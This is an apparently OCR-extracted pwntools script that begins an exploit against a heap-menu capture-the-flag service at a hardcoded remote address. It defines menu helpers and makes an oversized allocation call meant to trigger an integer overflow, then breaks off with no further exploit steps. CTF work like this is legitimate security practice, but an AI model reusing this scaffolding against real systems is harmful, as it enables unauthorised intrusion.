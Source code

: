 ```python
host = "3.115.121.123"

context(arch='amd64', os='linux', log_level='info')

def buyerr(idx,size):
    r.recvuntil('choice')
    r.sendline('1')
    r.recvuntil('Index')
    r.sendline(str(idx))
    r.recvuntil('Size')
    r.sendline(str(size))


def buy(idx,size,mess):
    r.recvuntil('choice')
    r.sendline('1')
    r.recvuntil('Index')
    r.sendline(str(idx))
    r.recvuntil('Size')
    r.sendline(str(size))
    r.recvuntil('House')
    r.send(mess)

def sell(idx):
    r.recvuntil('choice')
    r.sendline('3')
    r.recvuntil('Index')
    r.sendline(str(idx))

def edit(idx,mess):
    r.recvuntil('choice')
    r.sendline('4')
    r.recvuntil('Index')
    r.sendline(str(idx))
    r.recvuntil('House')
    r.send(mess)

def show(idx):
    r.recvuntil('choice')
    r.sendline('2')
    r.recvuntil('Index')
    r.sendline(str(idx))

def exploit(host):
    global r
    port = 5731
    flag = ""

    if DEBUG:
        if libcPath == "":
            r = process(binaryPath)
        else:
            r = process(binaryPath, env={'LD_PRELOAD':libcPath})
        raw_input("attach")
    else:
        # A.local = False      # local debug return real 'A'
        r = remote(host, port)
    if binaryPath != "":
        binary = ELF(binaryPath)
    if libcPath != "":
        libc = ELF(libcPath)

    buyerr(0, 0x10000000000000100/218)
```